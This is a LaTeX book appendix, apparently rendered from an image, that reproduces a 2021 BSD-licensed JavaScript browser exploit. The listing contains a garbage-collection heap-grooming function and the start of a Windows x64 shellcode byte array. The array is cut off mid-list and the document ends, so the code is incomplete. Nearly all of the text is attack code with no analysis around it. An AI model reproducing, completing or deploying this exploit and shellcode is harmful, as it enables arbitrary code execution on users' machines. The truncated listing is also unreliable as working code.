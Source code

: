 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
<script>
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions 
are met:
1. Redistributions of source code must retain the above copyright 
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright 
   notice, this list of conditions and the following disclaimer 
   in the documentation and/or other materials provided with the 
   distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
POSSIBILITY OF SUCH DAMAGE.
*/
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
	0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
	0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
	0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
	0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
	0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
	0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 
	0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
	0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
	0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
	0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
	0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
	0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 
	0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 
	0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 

\end{lstlisting}
\end{appendices}
\end{document}
